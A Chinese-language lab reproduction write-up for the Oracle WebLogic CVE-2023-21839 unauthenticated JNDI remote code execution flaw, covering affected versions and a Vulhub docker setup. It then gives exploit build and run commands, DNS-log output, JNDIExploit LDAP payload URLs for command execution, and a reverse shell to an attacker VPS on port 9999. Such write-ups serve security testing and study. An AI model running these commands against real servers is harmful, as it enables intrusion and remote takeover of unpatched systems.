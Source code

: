# Weblogic 未授权远程代码执行漏洞 CVE-2023-21839

## 漏洞描述

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞。

参考链接:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 漏洞影响

```
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

Vulhub执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面

![image-20230228142512212](images/image-20230228142512212.png)

## 漏洞复现

Weblogic CVE-2023-21839 RCE Exploit：https://github.com/4ra1n/CVE-2023-21839

需要使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server，此处使用 ：

- JNDIExploit：https://github.com/WhiteHSBG/JNDIExploit
- **java version：1.8.0_361**

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）。

Linux/Mac OS：

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows：

```
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

在Windows上的DNS Log：

```
C:\Threekiii> CVE-2023-21839.exe -ip <your-vps-ip> -port 7001 -ldap ldap://9xqmx0.dnslog.cn
[*] your-ip: <your-vps-ip>
[*] your-port: 7001
[*] your-ldap: ldap://9xqmx0.dnslog.cn
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![image-20230228145744308](images/image-20230228145744308.png)

Windows上测试反弹Shell不成功，转到Linux系统执行。

启动JNDI服务器：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <your-vps-ip>

------------
[+] Basic Queries: ldap://<your-vps-ip>:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://<your-vps-ip>:1389/Basic/Dnslog/[domain]
    ldap://<your-vps-ip>:1389/Basic/Command/id
    ldap://<your-vps-ip>:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999  ---windows NOT supported
    ...
```

执行Exploit：

```
./CVE-2023-21839 -ip <your-vps-ip> -port 7001 -ldap ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999
```

监听9999端口，成功接收反弹Shell：

![image-20230228154614995](images/image-20230228154614995.png)



